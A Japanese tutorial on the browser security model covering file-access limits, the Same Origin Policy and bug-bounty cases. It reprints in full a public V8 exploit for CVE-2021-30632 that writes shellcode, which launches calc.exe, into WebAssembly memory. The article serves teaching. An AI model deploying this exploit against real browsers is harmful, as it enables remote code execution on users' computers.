


# ブラウザのセキュリティモデル

Webフロントエンドのセキュリティ問題について議論する前に、まずその核心部分の基本的な理解が必要です。Webフロントエンドの最大の特徴は、コードがブラウザ上で実行されることです。ブラウザは、HTMLのレンダリング、CSSの解析、そしてページ上のJavaScriptコードの実行を担っています。

Webフロントエンドにとって、その実行環境はブラウザとなります。以下の図を例にとると、外側の黒い四角形がオペレーティングシステムを表し、その上で動作する2つの緑色のアプリケーションがあります。右側のアプリケーションがブラウザを表し、Webフロントエンドはそのブラウザ上で動作します。内側に行くほど、制限が厳しくなるのは当然です。



Webフロントエンド技術でできないことがある理由を理解するためには、この点を覚えておくことが重要です。できないのは、やりたくてもできないのではなく、ブラウザが許可していないからです。例えば、バックエンドサーバーはファイルの読み書き操作を簡単に行えますが、Webフロントエンドではそうはいきません。なぜでしょうか？それはブラウザが許可していないからです。

他の人がバックエンドプログラムを書いているのを見ると、様々な機能を実装できているのに、フロントエンドでその方法が見つからないのはなぜでしょうか？それはおそらく、ブラウザがそれを許可していないからです。

まとめると、

> ブラウザが提供してくれないものは、利用できないということです。それだけのことです。

では、ブラウザはどのようなセキュリティ制限を課しているのでしょうか？具体的に何を制限しているのでしょうか？以下にいくつかの例を示します。

## ローカルファイルへの積極的なアクセス禁止

バックエンドの場合、コードはOS上で直接動作するため、通常のアプリケーションと変わりません。特別な権限制限がなければ、基本的に何でもできます。OS全体がその遊び場なのです。

しかし、フロントエンドには多くの制限があります。例えば、コンピュータ上のファイルを「積極的に」読み書きすることはできません。では、何が可能なのでしょうか。以下のように、`<input type=file>` を使ってユーザーにファイルを選択させ、`FileReader` を使ってファイルの内容を読み込むことができます。

```html
<input type="file" onchange="show(this)">

<script>
function show(input) {
  const reader = new FileReader();
  reader.onload = (event) => {
    alert(event.target.result);
  };
  reader.readAsText(input.files[0]);
}
</script>
```

しかし、`fetch('file:///data/index.html')` のような操作で直接ファイルを読み込むことはできません。これを行うと、以下のようにコンソールにエラーが表示されるだけです。

> Not allowed to load local resource: file:///data/index.html

同様に `window.open('file:///data/index.html')` を使用しても同じエラーが発生します。

ブラウザに制限があるのは絶対的な理由があります。フロントエンドのWebページが直接ファイルを読み取ることができたらどうなるでしょうか？あなたの `/etc/passwd` ファイルを直接読み取ったり、SSHキーや設定ファイル、さらには仮想通貨ウォレットのバックアップ復元フレーズなどの機密情報を含む様々なファイルを読み取ることができてしまうのです。これはマルウェアに侵入されるようなもので、大きな問題となります。

そのため、JavaScriptがファイルに積極的にアクセスすることを禁止するのは非常に理にかなっています。そうでなければ、ただWebページを開くだけで全てのファイル内容がさらされ、重大なセキュリティ問題につながります。実際、そのような事例は以前にも起きています。事例を見てみましょう。

2021年、Renwa氏はOperaに脆弱性報告を行いました。

[Bug Bounty Guest Post: Local File Read via Stored XSS in The Opera Browser](https://blogs.opera.com/security/2021/09/bug-bounty-guest-post-local-file-read-via-stored-xss-in-the-opera-browser/)

OperaはChromiumベースのブラウザで、"ピンボード"と呼ばれる、ユーザーがメモを作成して他者と共有できる機能があります。このメモページのURLは `opera:pinboards` で特殊なスキームに属しており、通常は特別な権限を持っています。

ここでメモを作成する際、リンクを含めることができます。例えば `https://blog.huli.tw` などです。Renwa氏は、通常のリンクだけでなく、`javascript:alert(1)` といった文字列を使用してJavaScriptコードを実行し、`opera:pinboards` 下でXSS(クロスサイトスクリプティング)脆弱性を発見しました。

`opera:` スキーム下では `file://` スキームのページを開くことができたり、Webページのスクリーンショットを撮ってその結果を取得するといったことができる特別な権限が存在します。そのため、先ほど述べたXSSを利用してローカルファイルを開き、スクリーンショットを撮って攻撃者のサーバーに送信してファイルを盗むといった目的を達成することができてしまうのです。
このバグは報告後1日以内に修正され、報告者は4000ドルの報奨金を受け取りました。

## 禁止呼叫系統 API

一般的なネイティブアプリケーションは多くのことができます。たとえば、システム設定やネットワーク設定などを変更したり、システムが提供するAPIを通じてさまざまな操作を実行したりできます。しかし、JavaScriptではこれらの操作はできません。

より正確に言うと、JavaScriptがそれをできないわけではありません。JavaScriptは単なるプログラミング言語です。そうではなく、「ブラウザがWebフロントエンドに相当するAPIを提供していないため、できない」のです。

WebフロントエンドでJavaScriptを実行する場合、ブラウザが提供するものしか使用できません。たとえば、`fetch()`を使用してリクエストを送信したり、`setTimeout`を使用してタイマーを設定したりできます。これらはすべて、ブラウザが提供するインターフェースであり、使用できます。

システムのAPIを使用したい場合、ブラウザが対応するインターフェースを提供していない限り、WebページのJavaScriptはそれらの機能を使用できません。

たとえば、ブラウザにはBluetoothデバイスと通信するためのAPI（Web Bluetooth API）が用意されています。したがって、WebページのJavaScriptでBluetooth関連のアプリケーションを作成できます。別の例として、MediaDevices APIを使用すると、JavaScriptはマイクやカメラなどのデータにアクセスできるため、関連するアプリケーションを作成できます。

ブラウザがこれらのAPIを提供するとき、同時に権限管理メカニズムも実装します。通常、通知が表示され、ユーザーに積極的に同意を求め、その権限を許可するように求めます。これにより、Webページはデータにアクセスできるようになります。

## 禁止存取其他網頁的內容

これは、ブラウザの最も重要なセキュリティ上の前提と言えるでしょう。Webページは、他のWebページのコンテンツにアクセスする権限を持つべきではありません。これは理解しやすいはずです。これに違反すると、`blog.huli.tw` から `mail.google.com` のメールを直接読み取ることができてしまいます。これは明らかに安全ではありません。

したがって、各Webページは自分自身に対する権限のみを持ち、自分のHTMLを変更したり、必要なJavaScriptコードを実行したりできますが、他のWebページのデータにアクセスすることはできません。これは、Same Origin Policy（SOPと略されることもあります）と呼ばれます。

さらに、この「データ」は「ページ上のコンテンツ」だけでなく、「他のページのURL」も含まれます。

たとえば、`github.com` で次のコードを実行するとします。

```js
var win = window.open('https://blog.huli.tw')
setTimeout(() => {
  console.log(win.location.href)
}, 3000)
```

次のエラーメッセージが表示されます。



上記には次のように書かれています。

> Uncaught DOMException: Blocked a frame with origin "https://github.com" from accessing a cross-origin frame.

これは、他のページ上のもの（URLを含む）にアクセスできないことを意味します。

これは非常に基本的なことであり、当然なことのように思えますが、ブラウザがこの機能を実装するのはそれほど簡単ではありませんでした。ブラウザは何度も攻撃を受け、多くの防御策とアーキテクチャの調整を経て、より安全になり、このセキュリティ要件を満たすことができるようになりました。

たとえば、2018年1月、GoogleのProject Zeroは、CPUの欠陥を介して同じプロセス内のデータを読み取ることができる、歴史的な重大な脆弱性であるMeltdownとSpectreを発表しました。

Chromeブラウザは、この脆弱性に対応して、アーキテクチャをより安全に調整し、異なるWebページがどのような方法でロードされても（画像やiframeなどを含む）、異なるプロセスを使用して処理されるようにしました。この一連のセキュリティ対策はSite Isolationと呼ばれ、[ChromiumのWebページ](https://www.chromium.org/Home/chromium-security/site-isolation/)でより詳細な説明がされています。これについては、後の記事でもう一度触れます。

「他のページ上のものにアクセスできない」という点について、回避策の例を見てみましょう。

2022年、joaxcarはChromiumに脆弱性を報告しました：[Issue 1359122: Security: SOP bypass leaks navigation history of iframe from other subdomain if location changed to about:blank](https://bugs.chromium.org/p/chromium/issues/detail?id=1359122&q=subdomain%20host%20leak&can=1)。これは、iframeの脆弱性を利用して、クロスオリジンのURLを読み取ることができるというものです。

たとえば、現在のWebページが `a.example.com` で、その中に `b.example.com` のURLを持つiframeがあるとします。`frames[0].location = 'about:blank'` を使用してiframeをリダイレクトすると、iframeは `a.example.com` と同一オリジンになります。このとき、iframeの履歴 `frames[0].navigation.entries()` を読み取ると、元の `b.example.com` のURLを取得できます。

これは本来起こるべきではありません。iframeが別のURLにリダイレクトされた場合、`navigation.entries()` はクリアされるはずです。したがって、これはバグです。

これは、同一オリジンポリシーを回避するケースです。URLしか読み取れませんが、それでもセキュリティ上の脆弱性であり、2000ドルの賞金が得られました。

## まとめ

この記事のポイントは1つだけです。それは、「ブラウザが提供しないものは、決して使うことは出来ない」ということです。これは、Webフロントエンドが他の実行環境と大きく異なる点です。逆に、ブラウザが提供しないものを手に入れた場合、それはブラウザの脆弱性を見つけたことを意味し、報告して賞金を獲得できます。

では、最も深刻なブラウザの脆弱性とは何でしょうか？それは、攻撃者がブラウザの制限を突破し、ブラウザのセキュリティ上の仮定に違反する行為を可能にするものです。

たとえば、先ほど紹介したSOPバイパスは、同一オリジンポリシーに違反し、他のWebページのデータを読み取ることができます。先ほど紹介した例ではURLしか読み取れませんでしたが、さらに高度なものではコンテンツを読み取ることさえできます。たとえば、あなたが `https://blog.huli.tw` を開き、私のブログ記事を読んだとします。すると、私のWebサイトがバックグラウンドでJavaScriptを実行し、SOPバイパスの脆弱性を利用して、あなたが `https://mail.google.com` で見ているすべてのメールの内容を読み取ってしまうのです。

恐ろしいですよね？しかし、もっと恐ろしいことがあります。

最も深刻なのは、攻撃者がJavaScriptを介してブラウザの脆弱性を悪用し、コンピュータ上で任意のコマンドを実行できることです。この種の脆弱性は、RCE（Remote Code Execution、リモートコード実行）と呼ばれます。

例を挙げましょう。あなたが私のブログを開いていくつかの記事を読んで閉じると、その時点で私はあなたのコンピュータにコマンドを送信できるようになっています。あなたのコンピュータからすべてのデータを盗んだり、密かにマルウェアをインストールしたりできます。過去にはこのような事例が何度も発生しており、一定の間隔でブラウザにこの種の最も深刻な脆弱性が現れます。私たち一般ユーザーができることは、できるだけ早くブラウザを更新して、危険にさらされる可能性を減らすことだけです。

2021年9月には、CVE-2021-30632という脆弱性が公開されました。これはまさに私が先ほど説明したRCEであり、Chromeブラウザ（v93以前のバージョン）でWebページを開くだけで、攻撃者があなたのコンピュータに侵入してコマンドを実行できるというものでした。

あなたは通常、この種の攻撃のJavaScriptコードがどのようなものなのか、どのような機能を利用して、最終的にブラウザを介して任意のコードを実行できるのか疑問に思うかもしれません。

以下は、CVE-2021-30632のエクスプロイトの1つで、そのソースは次のとおりです：https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html

```html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
<script type="text/javascript">

function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module);
var main = instance.exports.main;

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();
  
var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

for (let i = 0; i < 20000; i++) {
  oobRead();
}

for (let i = 0; i < 20000; i++) oobWrite(1.1);
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;
var addrs = oobRead();

function ftoi32(f) {
  dblArr[0] = f;
  return [intView[0], intView[1]];
}

function i32tof(i1, i2) {
  intView[0] = i1;
  intView[1] = i2;
  return dblArr[0];
}

function itof(i) {
  bigIntView = BigInt(i);
  return dblArr[0];
}

function ftoi(f) {
  dblArr[0] = f;
  return bigIntView[0];
}


dblArr[0] = addrs[0];
dblArr[1] = addrs[1];

function addrOf(obj) {
  b[0] = obj;
  let addrs = oobRead();
  dblArr[0] = addrs[0];
  return intView[1]; 
}

function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));
  return writeArr[0];
}

function arbRead1(addr) {
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, addr));
  return writeArr[0];
}

function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  [elements, addr1] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

function writeShellCode1(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
 
  [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr1, intArrAddr + 0x20));
  writeArr[0] = rwxAddr;
  for (let i = 0; i < shellArr.length; i++) {
    intArr[i] = shellArr[i];
  }
}

var other_method = false;
var instanceAddr = addrOf(instance);
var elementsAddr = ftoi32(addrs[1])[0];

if((elementsAddr & 0xFFFF) == 0x222D) {
  other_method = true;
  elementsAddr = ftoi32(addrs[1])[1];
}

var shellCode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
      0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
      0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
      0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
      0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
      0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
      0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
      0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
      0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
      0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
      0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
      0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
      0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
      0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
      0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
      0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
      0x65, 0x78, 0x65, 0x00];

var rwxAddr;
if(other_method == false) {
  rwxAddr = arbRead(instanceAddr + 0x60);
  writeShellCode(rwxAddr, shellCode);
}
else {
  rwxAddr = arbRead1(instanceAddr + 0x60);
  writeShellCode1(rwxAddr, shellCode);
}

main();

</script>
</body>
</html>
```

この脆弱性は V8 に存在するため、上記のコードは「何をしているのか理解できない」操作を多数実行していることがわかります。これらの操作は通常、V8 の問題を引き起こすために特定の条件を満たすためのものですが、詳細な説明は私の防御範囲を超えています。ご興味がございましたら、GitHub のセキュリティ チームが書いた詳細な分析を読んでみてください。：[Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)

ちなみに、「JavaScriptの限界」をよく理解していないエンジニアたちはJavaScriptを使って不可能なことを実行しようとする人がよくいます。

ブラウザの基本的なセキュリティモデルを理解した後であれば、これらの実現不可能な機能について、PM（プロジェクトマネージャー）に対して「はい、この機能はウェブのフロントエンドではできません。なぜなら、ブラウザがこの機能の利用を許可しないからです」と自信を持って伝えることができます。APIの呼び出し方を探し回る必要はありません。なぜなら、そのようなAPIはそもそも存在しないからです。
